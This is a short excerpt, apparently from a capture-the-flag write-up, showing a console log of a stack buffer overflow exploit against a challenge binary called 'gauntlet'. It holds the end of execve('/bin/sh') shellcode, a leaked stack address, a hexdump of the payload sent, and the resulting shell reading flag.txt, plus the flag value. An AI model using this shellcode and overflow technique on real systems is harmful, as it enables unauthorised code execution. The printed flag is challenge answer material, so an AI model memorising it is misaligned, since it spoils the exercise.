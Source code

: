 ```console
        push rsi /* 'sh\x00' */
        mov rsi, rsp
        xor edx, edx /* 0 */
        /* call execve() */
        push SYS_execve /* 0x3b */
        pop rax
        syscall
[*] Leaked address: 0x7ffefe850108
[*] Local Buffer address: 0x7ffefe84ffa0
[*] Sending payload:
    00000000  6a 68 48 b8  2f 62 69 6e  2f 2f 2f 73  50 48 89 e7  │jhH·│/bin│///s│PH··│
    00000010  68 72 69 01  01 81 34 24  01 01 01 01  31 f6 56 6a  │hri·│··4$│····│1·Vj│
    00000020  08 5e 48 01  e6 56 48 89  e6 31 d2 6a  3b 58 0f 05  │·^H·│·VH·│·1·j│;X··│
    00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
    00000040  71 61 61 61  72 61 61 61  73 61 61 61  74 61 61 61  │qaaa│raaa│saaa│taaa│
    00000050  75 61 61 61  76 61 61 61  77 61 61 61  78 61 61 61  │uaaa│vaaa│waaa│xaaa│
    00000060  79 61 61 61  7a 61 61 62  62 61 61 62  63 61 61 62  │yaaa│zaab│baab│caab│
    00000070  64 61 61 62  65 61 61 62  a0 ff 84 fe  fe 7f 00 00  │daab│eaab│····│····│
    00000080
[*] Switching to interactive mode
$ ls
flag.txt
gauntlet
xinet_startup.sh
$ cat flag.txt
d509e835331047d80c23c46198350638
```

The flag: `d509e835331047d80c23c46198350638`